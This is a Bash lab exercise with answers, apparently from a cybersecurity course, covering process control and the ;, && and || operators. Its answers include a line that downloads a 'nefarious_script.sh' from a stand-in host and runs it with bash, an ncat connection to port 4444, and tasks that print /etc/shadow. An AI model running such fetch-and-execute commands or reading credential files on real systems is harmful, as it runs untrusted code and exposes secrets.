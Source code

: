 # Bash Sorcery

## Instructions

### Running Commands and Managing Processes

- On your Alpine machine, list your current user's running processes.
  - How many do you see?
  - One of the processes is _not_ bash. What is its PID?
  - Run the same command three or four times. How does the PID of this process each time?
  
- Next, run: `ping --help`. Identify the command-line flag you need to send a specific number of pings.

- Use this flag to ping `google.com` 100 times. Note that you can't use your Terminal to issue new commands while this is running.

- Press `Ctrl + C` to stop the ping command. Then, run the same command in the background.

- List your running processes. 
  - What do you see in the list of processes?
  - What other peculiarity do you notice about the backgrounded ping?...

- Find the PID of the ping command you just ran. Run: `kill <PID of ping Process>`.
  - What happens to the strange behavior after running this command?
  - List your running processes one last time. Do you see what you expect?

### Flow Controls

#### Semicolon

- Use the semicolon operator to print both `/etc/passwd` and `/etc/shadow`.
  - **Note**: This should succeed.

- Try to use the semicolon operator to print `/etc/nonexistent` and `/etc/passwd`, _in that order_. 
  - What output does this generate?

#### Logical And (Double Ampersand)

- Use the double ampersand operator to print both `/etc/passwd` and `/etc/shadow`.
  - **Note**: This should succeed.

- Try to use the double ampersand operator to print `/etc/nonexistent` and `/etc/passwd`, _in that order_. 
  - How does this output differ from that generated by the semicolon?

#### Logical Or (Double Pipe)

- Try to print out the contents of `/etc/shadow`, and use the double pipes to print an error message if there's a problem.
  - Use `echo "String to print"` to print a message.
  - **Note**: This command should succeed, so it _will not_ print out your error message.

- Run the same command, but try to print the contents of `/etc/nonexistent` instead of `/etc/shadow`.
  - How does this output differ from that generated by the double ampersand?

## Questions

- Write a command line that attempts to use `ncat` to connect to port `4444` on host `172.18.1.16`. If the connection fails, try to ping the host, instead.
  - `ncat 172.18.1.16 4444 || ping 172.18.1.16`

- Write a command line that creates a new directory, called `New_Directory`, and then changes into that directory, _if and only if_ it was created successfully.
  - `mkdir New_Directory && cd New_Directory`

- Write a command line that uses `curl` to download the file at `http://fake.site/nefarious_script.sh`, and then runs it with `bash` _if and only if_ it downloaded successfully.
  - `curl -O http://fake.site/nefarious_script.sh && bash nefarious_script.sh && rm nefarious_script.sh`
  - `curl http://fake.site/nefarious_script.sh;`

- Write a command line that runs the command `planA`, and runs the command `planB` _if and only if_ `planA` fails.
  - **Note**: These aren't real commands, but write the line anyway! The logic of the solution is what matters—not the commands themselves.

## Extension

### Streams

- You can "mute" a backgrounded process by redirecting everything it prints to Linux's "black hole" for unwanted process output, called `/dev/null`.
  - TO do this with the ping example, you'd run: `ping -c 100 8.8.4.4 &> /dev/null`.
  - This runs the ping command, but throws away everything it prints to the terminal—including error information!
  - For more information, refer to Chapter 20 of the Advanced Bash Scripting Guide, on **I/O Redirection**: <https://www.tldp.org/LDP/abs/html/io-redirection.html>

